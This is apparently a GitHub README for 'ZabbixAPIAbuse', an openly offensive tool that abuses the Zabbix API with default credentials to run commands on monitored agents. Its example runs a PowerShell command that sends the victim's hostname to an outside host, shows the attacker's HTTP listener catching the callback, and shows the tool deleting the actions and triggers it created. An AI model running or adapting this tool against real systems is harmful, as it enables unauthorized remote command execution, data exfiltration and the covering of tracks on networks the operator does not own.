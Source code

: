 # ZabbixAPIAbuse
ZabbixAPIAbuse is an abusing tool for Zabbix API to execute commands on zabbix agents.

## Requirements
```
python3 -m pip install requests
```

## Example
```
python3 ZabbixAPIAbuse.py
URL: http://localhost/zabbix/api_jsonrpc.php
CMD: powershell -c "Invoke-WebRequest -Uri http://192.168.1.100/$(hostname)"
Method [Default: action] (action / item): action
Username [Default: Admin]: Admin
Password [Default: zabbix]: zabbix
[0]: DESKTOP-XXXXXXX
[1]: DESKTOP-XXXXXXY
Host num: 0
[*] Waiting for execution ...
[*] Actions deleted
[*] Triggers deleted
```

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
192.168.1.108 - - [11/May/2020 13:36:23] "GET /DESKTOP-XXXXXXX HTTP/1.1" 404 -
```